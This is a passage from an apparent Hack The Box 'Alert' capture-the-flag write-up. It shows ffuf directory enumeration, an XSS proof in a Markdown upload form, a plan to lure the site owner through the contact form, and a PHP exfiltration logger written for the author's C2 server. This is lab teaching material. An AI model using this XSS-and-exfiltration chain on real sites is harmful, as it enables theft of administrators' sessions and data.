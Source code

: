 ```
 :: Method           : GET
 :: URL              : http://alert.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Header           : User-Agent: curl/8.11.1
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

uploads                 [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 24ms]
index.php               [Status: 302, Size: 660, Words: 123, Lines: 24, Duration: 2789ms]
css                     [Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 30ms]
contact.php             [Status: 200, Size: 24, Words: 3, Lines: 2, Duration: 3836ms]
messages                [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 25ms]
messages.php            [Status: 200, Size: 1, Words: 1, Lines: 2, Duration: 26ms]
visualizer.php          [Status: 200, Size: 633, Words: 181, Lines: 26, Duration: 28ms]
```

With little bit of browsing we can see that this web application is some kind of Markdown viewer, with following functionality:
* Upload Markdown file - http://alert.htb/visualizer.php
* View parsed Markdown file - http://alert.htb/visualizer.php?link_share=$MARKDOWN_FILE_ID.md
* Send message (probably to admin) - http://alert.htb/index.php?page=contact
* Get some details about service - http://alert.htb/index.php?page=about
* Make donation - http://alert.htb/index.php?page=donate

Additionally to that `ffuf` have found `messages.php` which returns blank page.

As application seems not to be vulnerable to LFI using `page` parameter, for the time being, Markdown upload form seems to be the most straightforward choice for exploitation. We will try to:
* Upload `.php` file. - Got `Error: File must be a Markdown file (.md).`
* Upload `.md` file with PHP code. - Code has been parsed as part of Markdown.
* Upload `.md` file with JS code. - `<script>alert('XSS')</script>`, triggers alert dialog box!

With this simple JS code we have just proved that Markdown parser / renderer is vulnerable to XSS. Now we need to find a way to exploit this vulnerability. In real life scenario we would need to make other user (e.g. admin) view this exploited Markdown so our injected JavaScript code will be executed. In this particular case we can see that each uploaded Markdown 'render' could be shared via direct URL (http://alert.htb/visualizer.php?link_share=$MARKDOWN_FILE_ID.md) we could use that and send this URL in contact form with hope that web application owener will open it.

Let's start with simple probing. On our C2 server we will host `exfil.php` script which will help us exfiltrate data with XSS.
```
┌──(magicrc㉿perun)-[~/attack/HTB Alert]
└─$ cat <<EOF> /var/www/html/exfil.php
<?php
$data = isset($_GET['data']) ? $_GET['data'] : (isset($_POST['data']) ? $_POST['data'] : 'No data');
$ip = $_SERVER['REMOTE_ADDR'];
$userAgent = $_SERVER['HTTP_USER_AGENT'];
$timestamp = date("Y-m-d H:i:s");
$logFile = "exfil.log";
$logEntry = "[$timestamp] IP: [$ip] | User-Agent: [$userAgent] | Data: [$data]\n";
file_put_contents($logFile, $logEntry, FILE_APPEND | LOCK_EX);
exit();
?>
EOF
```
